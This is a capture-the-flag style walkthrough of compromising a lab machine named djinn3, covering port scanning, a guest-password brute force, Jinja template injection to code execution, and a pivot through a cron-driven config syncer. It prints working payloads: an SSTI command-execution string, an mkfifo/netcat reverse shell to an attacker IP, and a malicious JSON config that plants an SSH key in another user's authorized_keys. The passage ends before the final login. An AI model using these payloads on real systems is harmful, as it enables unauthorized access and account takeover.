Looking at the nmap scan, there are four ports open:

```bash
PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e64423acb2d982e79058155e4023ed65 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDBgUZ4ePUkROKmQX1WTjc3GGAUZN8j2Xpaac1L8B5GEr6aqlrl9ac8iepy+A5dqAVEwiOEyZXlw1IlMEY4fv2a8qmN0w74/+rFPcEVEUsvrD+1Vnz70VnAL9psOl4eG5oDxlH6FCQwgYtZi4b8n4yfLTH1vTf5r6WAf/9Qp3yOE5PRGCxg7wIW8Nhu+79D3qEOqg4WaxM6qfSQI9F9mcWYKAsLK3OzdlNd94Dg17C7OLkD2xDHr5ntvC7AZCLXiAl9sS5CenfzRYpFRG4f0n4SHg+wIP0DmeilSoDkCZc+32PdYJVr83QAdaLK9oxAi7KQoq4Jv14+m2fdJQOAVlE/
|   256 ae04856ecb104f554aad969ef2ce184f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBFY5/zNj8f/NP+shaoQcoIQnhjVAZtSByClkEAj7Fr2z7xyToAVrYYg/C6G+UPMVoU4AJjQDqUt9VC/EwpShhC8=
|   256 f708561997b5031018667e7d2e0a4742 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFm9xiHj81UmMophY5vH1uG9NZ8VuuLEFox785bXURJu
80/tcp    open  http    syn-ack lighttpd 1.4.45
|_http-server-header: lighttpd/1.4.45
|_http-title: Custom-ers
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
5000/tcp  open  http    syn-ack Werkzeug httpd 1.0.1 (Python 3.6.9)
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
31337/tcp open  Elite?  syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     username>
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     username> password> authentication failed
|   Help: 
|     username> password>
|   RPCCheck: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     username> Traceback (most recent call last):
|     File "/opt/.tick-serv/tickets.py", line 105, in <module>
|     main()
|     File "/opt/.tick-serv/tickets.py", line 93, in main
|     username = input("username> ")
|     File "/usr/lib/python3.6/codecs.py", line 321, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port31337-TCP:V=7.93%I=7%D=3/2%Time=6400D5A7%P=x86_64-pc-linux-gnu%r(NU
SF:LL,A,"username>\x20")%r(GetRequest,2A,"username>\x20password>\x20authen
SF:tication\x20failed\n")%r(SIPOptions,2A,"username>\x20password>\x20authe
SF:ntication\x20failed\n")%r(GenericLines,2A,"username>\x20password>\x20au
SF:thentication\x20failed\n")%r(HTTPOptions,2A,"username>\x20password>\x20
SF:authentication\x20failed\n")%r(RTSPRequest,2A,"username>\x20password>\x
SF:20authentication\x20failed\n")%r(RPCCheck,1A9,"username>\x20Traceback\x
SF:20\(most\x20recent\x20call\x20last\):\n\x20\x20File\x20\"/opt/\.tick-se
SF:rv/tickets\.py\",\x20line\x20105,\x20in\x20<module>\n\x20\x20\x20\x20ma
SF:in\(\)\n\x20\x20File\x20\"/opt/\.tick-serv/tickets\.py\",\x20line\x2093
SF:,\x20in\x20main\n\x20\x20\x20\x20username\x20=\x20input\(\"username>\x2
SF:0\"\)\n\x20\x20File\x20\"/usr/lib/python3\.6/codecs\.py\",\x20line\x203
SF:21,\x20in\x20decode\n\x20\x20\x20\x20\(result,\x20consumed\)\x20=\x20se
SF:lf\._buffer_decode\(data,\x20self\.errors,\x20final\)\nUnicodeDecodeErr
SF:or:\x20'utf-8'\x20codec\x20can't\x20decode\x20byte\x200x80\x20in\x20pos
SF:ition\x200:\x20invalid\x20start\x20byte\n")%r(DNSVersionBindReqTCP,A,"u
SF:sername>\x20")%r(DNSStatusRequestTCP,A,"username>\x20")%r(Help,14,"user
SF:name>\x20password>\x20")%r(SSLSessionReq,1B1,"username>\x20Traceback\x2
SF:0\(most\x20recent\x20call\x20last\):\n\x20\x20File\x20\"/opt/\.tick-ser
SF:v/tickets\.py\",\x20line\x20105,\x20in\x20<module>\n\x20\x20\x20\x20mai
SF:n\(\)\n\x20\x20File\x20\"/opt/\.tick-serv/tickets\.py\",\x20line\x2093,
SF:\x20in\x20main\n\x20\x20\x20\x20username\x20=\x20input\(\"username>\x20
SF:\"\)\n\x20\x20File\x20\"/usr/lib/python3\.6/codecs\.py\",\x20line\x2032
SF:1,\x20in\x20decode\n\x20\x20\x20\x20\(result,\x20consumed\)\x20=\x20sel
SF:f\._buffer_decode\(data,\x20self\.errors,\x20final\)\nUnicodeDecodeErro
SF:r:\x20'utf-8'\x20codec\x20can't\x20decode\x20byte\x200xd7\x20in\x20posi
SF:tion\x2013:\x20invalid\x20continuation\x20byte\n")%r(TerminalServerCook
SF:ie,1B0,"username>\x20Traceback\x20\(most\x20recent\x20call\x20last\):\n
SF:\x20\x20File\x20\"/opt/\.tick-serv/tickets\.py\",\x20line\x20105,\x20in
SF:\x20<module>\n\x20\x20\x20\x20main\(\)\n\x20\x20File\x20\"/opt/\.tick-s
SF:erv/tickets\.py\",\x20line\x2093,\x20in\x20main\n\x20\x20\x20\x20userna
SF:me\x20=\x20input\(\"username>\x20\"\)\n\x20\x20File\x20\"/usr/lib/pytho
SF:n3\.6/codecs\.py\",\x20line\x20321,\x20in\x20decode\n\x20\x20\x20\x20\(
SF:result,\x20consumed\)\x20=\x20self\._buffer_decode\(data,\x20self\.erro
SF:rs,\x20final\)\nUnicodeDecodeError:\x20'utf-8'\x20codec\x20can't\x20dec
SF:ode\x20byte\x200xe0\x20in\x20position\x205:\x20invalid\x20continuation\
SF:x20byte\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Usually, a port named in Leetspeak is something custom. Connect to it with netcat and check it out:

```bash
$ nc 192.168.122.102 31337
username> admin
password> admin
authentication failed
```

It is some sort of custom service. I don't have creds, so moving on.

Checking out the web service, there's nothing of interest on port 80. It's just a static page and fuzzing reveals little. Port 5000 is some sort of ticketing software.



Checking the nmap scan shows that Werkzeug is powering it, meaning it's a python application. Usually, with Werkzeug, it means some sort of SSTI.

The tickets are numbered and the ones visible don't start from 1. I'm curious if there are any more in between, so I run wfuzz:

```bash
$ wfuzz -z range,1-9999 -u http://192.168.122.102:5000/?id=FUZZ --hw 40
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.122.102:5000/?id=FUZZ
Total requests: 9999

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000002792:   200        20 L     71 W       751 Ch      "2792"
000002984:   200        20 L     70 W       729 Ch      "2984"
000002973:   200        20 L     52 W       633 Ch      "2973"
000004567:   200        20 L     80 W       786 Ch      "4567"
000007723:   200        20 L     75 W       740 Ch      "7723"
000008345:   200        20 L     55 W       642 Ch      "8345"
```

There aren't any hidden. WYSIWYG. Analyzing a few, I find potential usernames, learn of a default guest account, and password complexity for the users doesn't appear to be too high:

```bash
$ curl -s http://192.168.122.102:5000/?id=2984 | html2text
*** Update the user information ***

Status: In progress
ID: 2984
*** Description: ***

It's a request to the helpdesk that since lot of people(jason, david, freddy
etc) were either fired or resigned. It would be nice if we can remove their
accounts and privileges from the system.
Sorry for the bright page, we are working on some beautiful CSS

$ curl -s http://192.168.122.102:5000/?id=4567 | html2text
*** Remove default user guest from the ticket creation service. ***

Status: open
ID: 4567
*** Description: ***

Remove all the default user that exists on the ticket creation service as it
could be a real hazadous to leave any entry point for unexpected guests. Also I
would recommend adding an checks for the complexity of the password.
Sorry for the bright page, we are working on some beautiful CSS


$ curl -s http://192.168.122.102:5000/?id=7723 | html2text
*** Jack will temporarily handling the risk limit UI ***

Status: open
ID: 7723
*** Description: ***

As we know umang has resigned, so until we find the replacement Jack will be
handling the lead on risk limit UI. RLUI team has to keep Jack about all the
development that has been happening.
Sorry for the bright page, we are working on some beautiful CSS


$ curl -s http://192.168.122.102:5000/?id=8345 | html2text
*** Error while updating postgres queries ***

Status: In progress
ID: 8345
*** Description: ***

There are some issues with the postgres queries and I think that this needs to
be addressed ASAP
Sorry for the bright page, we are working on some beautiful CSS
```


I wrote a program to brute force passwords for different users. The password list on Kali can be found here: `/usr/share/seclists/Passwords/Default-Credentials/default-passwords.txt`

```bash
$ ./bruteforce.py guest default-passwords.txt
[+] Opening connection to 192.168.122.102 on port 31337: Done
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:16: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("username>", timeout=10)
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:17: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(user)
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("password>", timeout=10)
/home/lemmy/hacking/boxes/pgp/djinn3/./bruteforce.py:19: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.sendline(password)
[*] Closed connection to 192.168.122.102 port 31337
[+] Opening connection to 192.168.122.102 on port 31337: Done
[*] Closed connection to 192.168.122.102 port 31337
[+] Opening connection to 192.168.122.102 on port 31337: Done
[*] Closed connection to 192.168.122.102 port 31337
<SNIP>
password for guest is guest
[*] Closed connection to 192.168.122.102 port 31337
```


I login as guest. The main point of this service is to generate a ticket, but that really doesn't matter to my interests. The fact I have some control over what gets rendered on the website is what counts. This means that, if I can get SSTI, I can execute it on the website.

There are a few steps to use to verify there is SSTI. You can find this chart 

First test:

```bash
$ nc 192.168.122.102 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open
Title: test2
Description: {{7*7}}
> exit
```

Result: 49



So this is SSTI.
Second test:

```bash
$ nc 192.168.122.102 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open
Title: test3
Description: {{7*'7'}}
> exit
```

Result: 7777777



Since Jinja may be the backend here, I'll use  implemetation to get code execution. 

Third test:

```bash
$ nc 192.168.122.102 31337
username> guest
password> guest

Welcome to our own ticketing system. This application is still under
development so if you find any issue please report it to mail@mzfr.me

Enter "help" to get the list of available commands.

> open
Title: test4
Description: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
> exit
```

Result: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`

Alright, now that I have RCE PoC via SSTI, I will substitute a `rm mkfifo` reverse shell. Here is the payload:

Payload: `{{request.application.__globals__.__builtins__.__import__('os').popen('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 192.168.49.122 443 >/tmp/f').read()}}`

Setting up a netcat listener on port 443 and then calling it on the website, I get a shell:

```bash
www-data@djinn3:/opt/.web$ whowhoami
www-data
www-data@djinn3:/opt/.web$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@djinn3:/opt/.web$ hostname
djinn3
www-data@djinn3:/opt/.web$ hostname -I
192.168.122.102
```

Collect local.txt:
```bash
www-data@djinn3:~$ cat local.txt
2b43ae932c7d96460d114c63d8c3b911
```



Check out the users here:

```bash
www-data@djinn3:/home$ ls -la
total 20
drwxr-xr-x  5 root  root  4096 Jun  4  2020 .
drwxr-xr-x 23 root  root  4096 Sep 30  2020 ..
drwxr-x---  3 jack  jack  4096 Sep 30  2020 jack
drwxr-x---  3 mzfr  mzfr  4096 Sep 30  2020 mzfr
drwxr-x---  5 saint saint 4096 Sep 30  2020 saint
```

Further enumeration reveals potential creds:

```bash
www-data@djinn3:/opt/.web$ cat webapp.py
from flask import Flask, render_template, request, render_template_string
import json


app = Flask(__name__, static_url_path="/static")
app.secret_key = "hackthedamnplanet"
<SNIP>
```

I test them against the user list:

```bash
$ hydra -L users -p hackthedamnplanet ssh://192.168.122.102
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-02 14:49:03
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:3/p:1), ~1 try per task
[DATA] attacking ssh://192.168.122.102:22/
1 of 1 target completed, 0 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-02 14:49:06
```

The password doesn't work.
Moving on to `/opt/`, there are some interesting things here. Here's code from the app running on port 31337:

```bash
www-data@djinn3:/opt/.tick-serv$ cat tickets.py
import sys
import signal
import os
import json
import random

FILE = "/opt/.web/data.json"
def authenticate(username: str, password: str):
    if username == "guest" and password == "guest":
        return True
    return False
<SNIP>
```
This means that there never was another user to login as, just guest.

I also find some compiled python binaries here owned by saint:

```bash
www-data@djinn3:/opt$ ls -la
total 24
drwxr-xr-x  4 root     root     4096 Jun  4  2020 .
drwxr-xr-x 23 root     root     4096 Sep 30  2020 ..
-rwxr-xr-x  1 saint    saint    1403 Jun  4  2020 .configuration.cpython-38.pyc
-rwxr-xr-x  1 saint    saint     661 Jun  4  2020 .syncer.cpython-38.pyc
drwxr-xr-x  2 www-data www-data 4096 May 17  2020 .tick-serv
drwxr-xr-x  4 www-data www-data 4096 Jun  4  2020 .web
```

I transfer them over to my machine through netcat, then check the md5sum to verify they made it in one piece:






Using , I can disassemble the binaries and see what's there:

```bash
$ uncompyle6 configuration.cpython-38.pyc
# uncompyle6 version 3.9.0
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0]
# Embedded file name: configuration.py
# Compiled at: 2020-06-04 10:49:49
# Size of source mod 2**32: 1343 bytes
import os, sys, json
from glob import glob
from datetime import datetime as dt

class ConfigReader:
    config = None

    @staticmethod
    def read_config(path):
        """Reads the config file
        """
        config_values = {}
        try:
            with open(path, 'r') as (f):
                config_values = json.load(f)
        except Exception as e:
            try:
                print("Couldn't properly parse the config file. Please use properl")
                sys.exit(1)
            finally:
                e = None
                del e

        else:
            return config_values

    @staticmethod
    def set_config_path():
        """Set the config path
        """
        files = glob('/home/saint/*.json')
        other_files = glob('/tmp/*.json')
        files = files + other_files
        try:
            if len(files) > 2:
                files = files[:2]
            else:
                file1 = os.path.basename(files[0]).split('.')
                file2 = os.path.basename(files[1]).split('.')
                if file1[-2] == 'config':
                    if file2[-2] == 'config':
                        a = dt.strptime(file1[0], '%d-%m-%Y')
                        b = dt.strptime(file2[0], '%d-%m-%Y')
                if b < a:
                    filename = files[0]
                else:
                    filename = files[1]
        except Exception:
            sys.exit(1)
        else:
            return filename
# okay decompiling configuration.cpython-38.pyc

$ uncompyle6 syncer.cpython-38.pyc
# uncompyle6 version 3.9.0
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.10.8 (main, Nov  4 2022, 09:21:25) [GCC 12.2.0]
# Embedded file name: syncer.py
# Compiled at: 2020-06-01 07:32:59
# Size of source mod 2**32: 587 bytes
from configuration import *
from connectors.ftpconn import *
from connectors.sshconn import *
from connectors.utils import *

def main():
    """Main function
    Cron job is going to make my work easy peasy
    """
    configPath = ConfigReader.set_config_path()
    config = ConfigReader.read_config(configPath)
    connections = checker(config)
    if 'FTP' in connections:
        ftpcon(config['FTP'])
    else:
        if 'SSH' in connections:
            sshcon(config['SSH'])
        else:
            if 'URL' in connections:
                sync(config['URL'], config['Output'])


if __name__ == '__main__':
    main()
# okay decompiling syncer.cpython-38.pyc
```

From `syncer.cpython-38.pyc`, I learn that there is a cronjob running that is checking config files and it is parsing json data looking for values SSH or URL. If URL is present, it will copy (sync) the data in the file fetched at the URL and copy it to the Output location. From `configuration.cpython-38.pyc`, I learn that files in `/tmp` that end with a particular format (d-m-y.config.json) will be piped into syncher.py.

I want to pivot to another user. saint is the owner of this file, so it's likely this user's privileges that will be used to perform the sync. Assuming saint has an `.ssh` folder at `/home/saint/.ssh`, I will generate an ssh key, host it on my machine, and place the malicious json file in `/tmp`. If the target calls for my public key, I'll know the exploit worked.

Generate an ssh key to use:

```bash
$ ssh-keygen -t ed25519
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/lemmy/.ssh/id_ed25519): key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in key
Your public key has been saved in key.pub
The key fingerprint is:
SHA256:CCK1C1t40RMnfAVWe6J1Jj/FuBD0HZPfFufeUI1ghcI lemmy@d43d41us
The key's randomart image is:
+--[ED25519 256]--+
|  ooo.+==.  ==...|
| o o++.  +E=oo..+|
|+ = .o  * *.+. +o|
| * o . + O o  o +|
|. .   o S +    +.|
|           .    o|
|                 |
|                 |
|                 |
+----[SHA256]-----+
```

Create the malicious json file:

```bash
$ cat 02-03-2023.config.json
{
    "URL": "http://192.168.49.122/key.pub",
    "Output": "/home/saint/.ssh/authorized_keys"
}
```

Move the json file to `/tmp`, while setting up a http server in the directory containing your public key. When the file is fetched, ssh as saint:

